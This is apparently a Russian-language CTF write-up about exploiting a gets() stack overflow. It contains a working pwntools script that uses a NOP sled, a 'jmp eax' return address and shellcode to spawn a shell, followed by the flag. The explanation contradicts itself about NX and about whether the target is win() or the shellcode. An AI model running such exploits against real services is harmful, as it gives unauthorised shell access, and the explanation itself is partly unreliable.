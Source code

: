 # Task: Предел возможностей

### Описание уязвимости

Использование функции gets() в process_input() — это ключевая уязвимость. Поскольку gets() не ограничивает размер вводимой строки, ввод, превышающий размер буфера, переполнит его и позволит перезаписать значения на стеке, в том числе адрес возврата функции. Таким образом, мы можем заставить программу перейти к функции win и вывести флаг.

Структура программы:
- Главное меню: позволяет выбрать различные функции, включая process_input().
- Функция process_input(): отвечает за обработку пользовательского ввода и использует уязвимую функцию gets().
- Функция win(): функция, которая выводит флаг. Наша цель — перенаправить выполнение программы на эту функцию, что приведёт к получению флага.

###  Подготовка к эксплуатации

1. Исследование защиты: Программа использует защиту "No-Execute" (NX), которая предотвращает выполнение кода в сегменте данных. Однако NX-флаг отключён, что позволяет выполнить наш shellcode.
2. Переполнение буфера: Буфер для ввода в process_input() имеет размер 16 байт, и поэтому ввод строки большего размера приведёт к переполнению и позволит переписать адрес возврата.

### Эксплойт

Пошаговый разбор эксплойта:
- NOP-слайд: payload = b'\x90' * 26 создаёт "скользящий" сегмент NOP, который помогает при выполнении shellcode.
- Прыжок через перезаписанный адрес: payload += b'\xeb\x04' используется для пропуска 4 байтов (адрес возврата), чтобы shellcode мог выполняться без сбоев.
- Перезапись адреса возврата: payload += pwn.p32(0x0804a7ca) — замена адреса возврата на jmp eax, который перенаправляет выполнение на начало нашего shellcode.
- Shellcode: payload += pwn.asm(pwn.shellcraft.i386.linux.sh()) — вставляем shellcode для получения оболочки.

Финальный код эксплойта:

``` python
import pwn
import sys

# Создаем полезную нагрузку
payload = b'\x90' * 26               # NOP-слайд
payload += b'\xeb\x04'               # Переход на shellcode через 4 байта
payload += pwn.p32(0x0804a7ca)       # Адрес команды `jmp eax`
payload += pwn.asm(pwn.shellcraft.i386.linux.sh())  # Shellcode для получения оболочки

# Открываем соединение с удаленным сервером
p = pwn.remote('localhost', 12345)

# Преодолеваем главное меню
p.sendline(b'3')  # Выбираем "Ввод данных"

# Считываем ответ от программы, чтобы перейти к запросу ввода
p.recvuntil(b"Enter input:")

# Отправляем полезную нагрузку
p.sendline(payload)

# Запускаем интерактивный режим для дальнейшего взаимодействия
p.interactive()

```

Flag: `EclipseCTF{N3v3rG1veUp_2023!_F1ndY0urP4th}`